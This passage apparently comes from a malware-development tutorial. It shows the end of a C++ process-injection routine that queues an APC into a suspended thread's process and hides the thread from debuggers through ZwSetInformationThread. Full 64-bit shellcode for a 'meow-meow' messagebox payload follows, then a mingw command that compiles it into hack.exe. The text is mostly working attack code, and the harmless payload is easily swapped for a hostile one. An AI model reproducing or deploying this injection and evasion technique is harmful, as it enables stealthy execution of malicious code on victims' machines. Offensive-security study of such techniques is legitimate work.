 ```cpp
  sh = NULL;
  
  // create new thread
  myZwQueueApcThread(pi.hThread, (PIO_APC_ROUTINE)rb, 0, 0, 0);
  myZwSetInformationThread(pi.hThread, (THREADINFOCLASS)1, NULL, NULL);
  ResumeThread(pi.hThread);
  myZwClose(pi.hThread);
  myZwClose(th);
  
  return 0;

}
```

As usually, for simplicity, I used `meow-meow` messagebox as payload:    

```cpp
unsigned char my_payload[] = 
  
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### Demo

Let's go to compile our example:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
